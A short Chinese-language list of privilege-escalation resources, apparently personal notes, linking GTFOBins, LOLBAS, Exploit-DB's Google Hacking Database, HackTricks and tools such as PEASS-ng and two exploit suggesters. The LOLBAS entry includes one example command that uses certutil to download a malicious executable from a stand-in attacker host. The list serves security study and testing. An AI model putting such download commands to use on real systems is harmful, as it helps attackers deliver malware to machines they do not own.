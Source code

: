 # 提权网站

[GTFOBins](https://gtfobins.github.io/)

- GTFOBins 是一个专注于 Linux/Unix 系统提权的资源库，列出了大量常见二进制文件（如 find、vim、tar）在受限环境下的滥用方法。

[LOLBAS](https://lolbas-project.github.io/)

- 对 Windows 的提权工具，涵盖了 certutil.exe、bitsadmin.exe 等原生二进制文件的滥用方式。例如：certutil -urlfetch -f http://attacker.com/shell.exe shell.exe 下载恶意文件。

[Google Hacking Database (GHDB) - Google Dorks, OSINT, Recon](https://www.exploit-db.com/google-hacking-database)



[HackTricks Values & FAQ - HackTricks](https://book.hacktricks.wiki/zh/welcome/hacktricks-values-and-faq.html)









项目

[peass-ng/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/peass-ng/PEASS-ng)



[The-Z-Labs/linux-exploit-suggester: Linux privilege escalation auditing tool](https://github.com/The-Z-Labs/linux-exploit-suggester)



[AonCyberLabs/Windows-Exploit-Suggester: This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
